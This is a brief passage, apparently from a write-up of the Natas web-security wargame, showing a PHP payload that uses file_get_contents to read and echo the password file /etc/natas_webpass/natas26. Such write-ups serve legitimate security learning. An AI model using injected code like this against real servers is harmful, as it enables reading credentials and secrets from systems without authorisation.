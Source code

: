 ![alt text](NatasScreenshots/26.2.png)

Working perfectly fine!

Now, let's get the password by reading the content of **etc/natas_webpass/natas26** and echoing it :
```php
<?php echo file_get_contents('/etc/natas_webpass/natas26'); ?>
```